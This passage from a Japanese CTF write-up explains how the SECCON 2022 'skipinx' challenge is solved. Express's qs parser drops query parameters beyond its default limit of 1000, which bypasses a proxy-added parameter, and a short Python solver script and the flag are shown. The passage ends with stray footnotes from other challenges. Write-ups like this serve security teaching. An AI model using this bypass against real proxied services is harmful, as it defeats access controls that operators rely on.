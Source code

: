 - https://expressjs.com/en/api.html#app.set
    - > The extended query parser is based on qs.
- https://github.com/ljharb/qs

expressはqsに渡すオプションにすべてデフォルト値を使っています:

- デフォルトオプション: https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L8-L25

`parameterLimit`オプションはクエリパラメータの上限数を指定する値であり、デフォルト値は`1000`です。
実装を確認すると:
```javascript
// from: https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L54-L55
var limit = options.parameterLimit === Infinity ? undefined : options.parameterLimit;
var parts = cleanStr.split(options.delimiter, limit);
```
とあり、`parameterLimit`個以降のクエリパラメータをすべて無視していることがわかります[^skipinx-1]。

[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。

つまり、`1000`個以上のクエリパラメータが付いたリクエストを送ると、nginxの付与した`proxy=nginx`は無視されるようになり、bypassが可能になります。

### Solver

```python
import os
import httpx

BASE_URL = "http://skipinx.seccon.games:8080"

# ref. https://github.com/ljharb/qs/blob/v6.11.0/lib/parse.js#L21
PARAMETER_LIMIT = 1000

query = "proxy=something" + ("&"*(PARAMETER_LIMIT - 1))
res = httpx.get(f"{BASE_URL}/?{query}")
print(res.text)
```

### Flag

```
SECCON{sometimes_deFault_options_are_useful_to_bypa55}
```

## [web] easylfi

- 62 teams solved / 124 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/web/easylfi

Description:

> Can you read my secret?
>
> - `http://easylfi.seccon.games:3000`

### Overview


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。